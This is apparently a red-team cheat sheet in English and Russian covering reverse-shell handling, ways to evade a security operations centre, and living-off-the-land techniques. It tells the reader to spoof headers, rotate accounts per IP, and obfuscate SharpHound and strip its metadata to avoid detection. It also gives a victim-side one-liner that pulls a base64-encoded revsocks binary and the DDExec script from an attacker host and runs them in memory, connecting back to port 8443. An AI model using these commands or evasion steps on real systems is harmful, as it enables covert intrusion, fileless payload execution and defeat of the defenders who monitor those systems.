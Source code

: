 ## CLI tricks

Use `script` command to log history from your reverse shells:
```
script filename.out
```
Use [rlwrap](https://github.com/hanslub42/rlwrap) to add some comfort into nc shells.
## SOC evasion

Желательно использовать одну учетную запись для входа с каждого IP-адреса, не переиспользовать их, а также не подключаться с тех адресов, которые использовались для внешней разведки.

Рекомендуется менять заголовки `X-Forwarded-For` и `User-Agent` во время использования автоматических средств.

Помимо обфускации исходного кода у известных утилит, таких, как SharpHound, рекомендуется также изменять их метаданные (описание, заданное разработчиком исходное имя, цифровую подпись и т. д.), а также зашивать ключи для запуска, чтобы их не было видно в процессах.
## Living off the land

Run ELF executables directly from the memory with [DDExec](https://github.com/arget13/DDexec):

```bash
attacker@kali$ cat revsocks | base64 -w0 > revsocks.b64
attacker@kali$ python3 -m http.server
```

```bash
user@victim$: curl $KALI_ADDR:8000/revsocks.b64 | bash <(curl $KALI_ADDR:8000/ddexec.sh) /bin/nothing-here -connect $KALI_ADDR:8443 -pass SuperSecretPassword
```
It is also possible [to run DDExec without dd](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/ddexec).

To compile executables without dependencies:
```
gcc -static exp.c -o exp -l mnl -l nftnl -w
CGO_ENABLED=0 go build ldflags='-s -w' -o /cmd/agent/main.go # golang
```
You can also try [static-get](https://github.com/minos-org/minos-static).

>Notice that Alpine uses musl libc instead of glibc.

[Mitigations](https://www.cisa.gov/sites/default/files/2024-02/Joint-Guidance-Identifying-and-Mitigating-LOTL_V3508c.pdf?utm_source=convertkit&utm_medium=email&utm_campaign=%F0%9F%A4%94+Do+you+even+know+the+difference%3F%20-%2013071642)
## Obfuscation

### NetAssembly

https://github.com/b4rtik/metasploit-execute-assembly

### LLVM

TODO